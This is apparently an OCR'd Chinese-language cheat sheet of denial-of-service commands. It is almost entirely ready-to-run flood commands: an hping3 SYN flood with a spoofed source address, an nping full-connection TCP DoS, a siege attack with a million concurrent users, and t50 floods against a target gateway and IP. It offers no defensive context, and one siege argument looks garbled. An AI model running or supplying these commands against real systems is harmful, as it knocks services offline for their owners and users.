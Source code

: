 ```
hping3 -n -a [目标ip] -S -d 100 -p 80 --flood [目标ip]
```



TCP全链接DOS攻击

```
nping --tcp-connect --rate=10000 -c 10000000 -q [目标ip]
```



### siege攻击：

```
siege -i -c 1000000 [目标ip] -A httttttp
```



### t50压力测试：

网络协议支持全面

```
t50 -h    #可以查看参数

t50 [目标网关] --flood --turbo -S --protocol TCP --dport 22

t50 --flood --protocol TCP [目标ip] --dport 80
```




